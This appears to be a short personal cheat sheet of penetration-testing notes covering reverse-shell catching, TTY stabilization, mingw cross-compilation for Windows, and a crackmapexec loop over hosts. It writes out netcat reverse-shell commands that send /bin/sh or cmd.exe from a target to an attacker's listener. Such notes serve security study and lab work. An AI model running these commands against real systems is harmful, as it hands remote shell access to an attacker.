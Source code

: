# Misc: References, and other stuff

excellent summary of SSH tunneling [here](https://tryhackme.com/room/lateralmovementandpivoting)



## Shell catching, and stabilization

set up listener with: 
```
nc –nvlp ${LPORT} 
```

now, from our Linux target box we can do:

```
nc $LHOST $LPORT -e /bin/sh
```
or Windows:

```
nc.exe $LHOST $LPORT -e cmd.exe
```
Afterwards, stabilize with [this](https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal)

Gain TTY with `python3 -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/sh")'`

## Revshells

[revshells.com](https://www.revshells.com/)

## Cross-compiling C on kali to windows

mingw-w64 is used to cross compile c files to windows exe files.
This can look something like:

`i686-w64-mingw32-gcc some-c-file.c -o out-file.exe -l ws2_32`

Where `-l ws2_32` tells `mingw32-gcc` to include the `ws2_32` DLL in the final executable with static linking. 


## Inline for loop
We want to execute some command for all machines in the file machines.txt. This can be done like so:
```
for machine in $(cat machines.txt); do; crackmapexec smb $machine ...; done;
```
(note, this is just an example, as crackmapexec in fact supports jut getting the machine IPs from a machines.txt file natively).

